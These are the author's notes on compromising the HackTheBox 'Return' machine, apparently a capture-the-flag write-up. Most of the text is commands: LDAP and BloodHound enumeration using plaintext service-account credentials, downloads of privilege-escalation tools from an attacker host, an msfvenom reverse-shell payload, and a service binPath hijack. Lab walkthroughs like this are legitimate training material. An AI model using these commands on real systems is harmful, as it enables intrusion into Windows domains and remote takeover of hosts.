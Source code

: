 
```
ldapdomaindump ldaps://10.10.11.108 -u 'RETURN\svc-printer' -p '1edFg43012!!'
```
![[Pasted image 20240505194413.png]]


```
bloodhound-python -d RETURN.local -u svc-printer -p '1edFg43012!!' -ns 10.10.11.108 -c all
```
![[Pasted image 20240505194335.png]]

Let's run winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506015645.png]]

![[Pasted image 20240506020652.png]]

```
USERDOMAIN: RETURN
USERDNSDOMAIN: return.local
```



```
IWR -Uri http://10.10.16.20:8080/opt/windows_tools/Sherlock.ps1 -OutFile /opt/windows_tools/Sherlock.ps1
```
![[Pasted image 20240506022418.png]]

```
net user svc-printer
```
![[Pasted image 20240506022345.png]]

The only thing coming to my mind is Meterpreter shell and Msfvenom

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.16.20 LPORT=4242
```
![[Pasted image 20240506022907.png]]

```
upload HackTheBox/Return/shell.exe
```
![[Pasted image 20240506023311.png]]


Now will configure the Msfconsle before running the shell.exe
```
use exploit/multi/handler 
```
![[Pasted image 20240506040642.png]]

Now we can run it and catch the shell

Now let's change the path of service binary
```
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell.exe"
```
![[Pasted image 20240506040930.png]]
As we started the sc.exe it got stuck which is an indication that we might got a shell finally
![[Pasted image 20240506041014.png]]

